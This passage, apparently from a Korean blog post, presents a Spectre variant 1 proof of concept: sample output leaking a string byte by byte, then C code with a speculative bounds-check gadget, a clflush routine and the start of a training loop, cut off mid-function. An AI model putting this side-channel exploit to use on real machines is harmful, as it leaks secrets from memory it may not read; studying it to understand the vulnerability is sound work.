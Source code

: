 ```
Reading at malicious_x = 0xffffffffffdfec8c... Unclear: 0x61=’a’ score=983 (second best: 0x01=’?’ score=758)
Reading at malicious_x = 0xffffffffffdfec8d... Unclear: 0x67=’g’ score=996 (second best: 0x01=’?’ score=750)
Reading at malicious_x = 0xffffffffffdfec8e... Unclear: 0x65=’e’ score=977 (second best: 0x01=’?’ score=742)
Reading at malicious_x = 0xffffffffffdfec8f... Unclear: 0x2E=’.’ score=993 (second best: 0x01=’?’ score=813)
```

사양이 낮은 가상환경에서 테스트 되어 시간 차가 그리 많이 나지 않습니다. 이 때문에 Unclear라고 뜨지만 실제로 값을 제대로 추정한 것은 확인할 수 있습니다.

## PoC 작성

### 1차 작성 코드

```c
#include <stdio.h>
#include <stdint.h>
#include <x86intrin.h>

unsigned int array1_size = 16;
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t array2[256 * 512];

char * secret = "My secret";

uint8_t temp = 0;

void specu(size_t x) {
  if (x < array1_size) {
    temp &= array2[array1[x] * 512];
  }
}

extern void clflush(void *);
asm(
".section .text\n"
".global clflush\n"
"clflush:\n"
" mfence\n"
" clflush (%rdi)\n"
" retq\n"
);

int main(int argc, char ** argv) {
  static int results[256] = {0,};
  int tries = 999, i, j, mix_i, junk = 0;
  volatile uint8_t * addr;
  size_t training_x, x;
  size_t malicious_x = (size_t)(secret - (char * ) array1);

  for (i = 0; i < sizeof(array2); i++) {
    array2[i] = 1;
  }

  for (i = 0; i < 256; i++)
    clflush(&array2[i * 512]);

  training_x = tries % array1_size;
  for (j = 29; j >= 0; j--) {
    clflush(&array1_size);

```